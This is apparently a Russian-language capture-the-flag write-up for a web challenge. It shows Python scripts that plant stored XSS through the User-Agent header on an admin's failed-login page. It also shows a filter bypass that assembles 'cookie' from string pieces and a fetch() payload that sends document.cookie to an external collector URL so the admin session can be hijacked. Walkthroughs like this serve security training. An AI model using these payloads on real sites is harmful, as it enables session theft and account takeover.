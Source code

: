 **level**: **Hard**
**Description**: Воображение важнее, чем знания
**IP**: 62.173.140.174:16035

Изначально на сайте предлагают ввести логин и пароль для регистрации. Очевидно, что нам нужно получить доступ к аккаунту админа.

Изучим html код на наличие подсказок, скрытых функций и тд.
Находим какой-то скрытый функционал, который позже нам пригодится.
Видим личный кабинет  с "failed login attempts". Попробуем произвести попытку логина с неправильным паролем с другого браузера или с режимом инкогнито.

Попробуем зарегистрировать пользователя с логином:
<script>alert(1)</script>

Также попробуем зайти вне с неправильным паролем. Обнаруживаем, что XSS-уязвимость есть, что поможет захватить аккаунт. Если мы сумеем послать наш пейлоад, то мы сможем запустить на нем javascript code.
Конечно, изменить имя admin на пейлоад нельзя, но не будем забывать что есть еще другие поля, которые тоже скорее всего подвержены XSS-атаке.
На поле User-Agent мы можем повлиять, в отличие от полей id, username, IP, Date.

Для этого напишем скрипт на python, который мы будем использовать в дальнейшем.

-----

import requests

payload = "<script>alert(1);</script>" # это пейлоад

user = "asdf" #Тут наш username
headers = {'User-Agent': payload} # Вставляем его в хедер
data = {"username":user, "password":"aboba"}


response = requests.post('http://62.173.140.174:16035/login.php', headers=headers, data=data) # Совершаем попытку логина с неверным паролем
 
print(response.status_code)# Выводим информацию
#print(response.text) 

-----

Мы смогли внедрить свой код.
Поизучав результаты по запросу "XSS steal cookie payloads", обнаруживаем, что нам нужно захватить ```document.cookie```

Попробуем использовать простой alert();

-----

import requests


payload = '<script>alert(document.cookie);</script>'

user = "asdf" 
headers = {'User-Agent': payload}
data = {"username":user, "password":"aboba"}


response = requests.post('http://62.173.140.174:16035/login.php', headers=headers, data=data)
 
print(response.status_code)
print(response.text)

-----

Все сработало, кроме alert. А значит необходимо это как-то обойти.

Так как нам нужно в функции alert() вывести document.cookie, то попробуем сделать это иным способом, а именно с помощью переменных.

-----

python 
import requests

payload = '<script>const vv = ["coo", "kie"].join("");alert(document[vv]);</script>'

user = "asdf" 
headers = {'User-Agent': payload}
data = {"username":user, "password":"aboba"}

response = requests.post('http://62.173.140.174:16035/login.php', headers=headers, data=data)
 
print(response.status_code)
print(response.text)

-----

То, что вывели в alert будем ловить на его **сервер**.

Перейдем во вкладку и скопируем **url**, чтобы перейти по ней в браузере. Нажимаем на **Poll now**, тем самым получая данные с сервера.

Нам предоставили доступ к нашему request, теперь мы можем его детально рассмотреть.
Эта функция заменит нам ngrok или свой белый IP и сервер.
Копируем и вставляем в скрипт.

-----

import requests

payload = '<script>const vv = ["coo", "kie"].join(""); var payload = `https://{{СЮДА}}/?${vv}=` + document[vv]; fetch(payload);</script>'

user = "admin" 
headers = {'User-Agent': payload}
data = {"username":user, "password":"aboba"}


response = requests.post('http://62.173.140.174:16035/login.php', headers=headers, data=data)
 
print(response.status_code)
print(response.text)

````

Отправляем и подставляем значение PHPSESSID в наш браузер. 
